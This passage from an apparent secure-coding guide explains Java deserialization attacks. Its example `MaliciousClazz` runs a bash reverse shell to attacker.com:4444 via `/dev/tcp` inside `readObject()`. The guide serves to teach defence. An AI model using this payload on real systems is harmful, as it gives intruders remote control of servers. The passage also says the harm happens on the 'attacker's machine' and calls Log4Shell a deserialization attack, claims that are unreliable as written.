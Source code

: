 ## Java Deserialization

While Java deserialization attacks are not the most common security threats, they can dramatically harm the application if successfully executed.

### Java Deserialization Attack

An example of a classical Java deserialization attack is when an attacker creates a malicious class (e.g., `MaliciousClazz`) containing a harmful `readObject()` method. 

[![Remote Code Execution with Java Deserialization.svg](https://github.com/ionutbalosin/java-application-security-practices/blob/main/docs/images/remote_code_execution.svg?raw=true)](https://github.com/ionutbalosin/java-application-security-practices/blob/main/docs/images/remote_code_execution.svg?raw=true)

When the `MaliciousClazz` is deserialized, the `readObject()` method is executed, causing harmful actions on the attacker's machine.

The malicious Java payload can reach the server through various mechanisms, including HTTP requests/responses, file uploads, third-party libraries, inter-service communication, configuration files, and more.

The code snapshot below provides an example of such a malicious class.

```java
  public class MaliciousClazz implements Serializable {
    
    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
      ois.defaultReadObject();

      // Attacker crafts a malicious command to be executed 💀
      String maliciousCommand = "/bin/bash -c 'exec 5<>/dev/tcp/attacker.com/4444;cat <&5 | while read line; do $line 2>&5 >&5; done'";
      Runtime.getRuntime().exec(maliciousCommand);
    }
  }
```

For example, the [Log4j Log4Shell vulnerability](https://en.wikipedia.org/wiki/Log4Shell) was essentially a Java deserialization attack that allowed a remote attacker to gain control over the victim's machine.

### How to Mitigate or Prevent Java Deserialization Attacks

Deserializing Java classes from external sources can be extremely dangerous. Similar to handling external input files, you must assume that any deserialized class from a public or external client source can potentially be malicious.
